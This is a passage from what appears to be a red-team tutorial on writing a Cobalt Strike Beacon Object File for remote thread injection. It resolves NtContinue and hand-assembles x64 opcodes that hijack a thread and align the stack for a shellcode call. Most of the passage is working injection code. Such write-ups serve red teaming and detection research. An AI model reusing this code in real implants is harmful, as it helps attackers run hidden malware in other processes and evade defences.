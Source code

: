 We then resolve the address of `NtContinue`, Beacon Object File style.

```c
// Although the thread is in a remote process, the Windows DLLs mapped to the Beacon process, although private, will correlate to the same virtual address
unsigned long long ntcontinueAddress = KERNEL32$GetProcAddress(KERNEL32$GetModuleHandleA("ntdll"), "NtContinue");

// Error handling. If NtContinue cannot be resolved, abort
if (ntcontinueAddress == NULL)
{
	BeaconPrintf(CALLBACK_ERROR, "Error! Unable to resolve NtContinue.\n", KERNEL32$GetLastError());
}
```

Using the custom `mycopy` function, we then can copy the address of `NtContinue` at the correct index within the `BYTE` array, based on the value of `i`.

```c
// Copy the address of NtContinue function address to the NtContinue routine buffer
mycopy(ntContinue + i, &ntcontinueAddress, sizeof(ntcontinueAddress));

// Update the counter with the correct offset the next bytes should be written to
i += sizeof(ntcontinueAddress);
```

At this point, things are as easy as just allocating some stack space for good measure and calling the value in RAX, `NtContinue`!

```c
// Allocate some space on the stack for the call to NtContinue
// sub rsp, 0x20
ntContinue[i++] = 0x48;
ntContinue[i++] = 0x83;
ntContinue[i++] = 0xec;
ntContinue[i++] = 0x20;

// call NtContinue
ntContinue[i++] = 0xff;
ntContinue[i++] = 0xd0;
```

All there is left now is the stack alignment routine inside of the call to `CreateThread`! This alignment is to ensure the stack pointer is 16-byte aligned when the call from the `NtContinue` routine invokes the `CreateThread` routine.

Will The Stars Align?
---
The following routine will perform bitwise AND with the stack pointer, to ensure a 16-byte aligned RSP value inside of the `CreateThread` routine, by clearing out the last 4 bits of the address.

```c
// Create 4 byte buffer to perform bitwise AND with RSP to ensure 16-byte aligned stack for the call to shellcode
// and rsp, 0FFFFFFFFFFFFFFF0
stackAlignment[0] = 0x48;
stackAlignment[1] = 0x83;
stackAlignment[2] = 0xe4;
stackAlignment[3] = 0xf0;
```
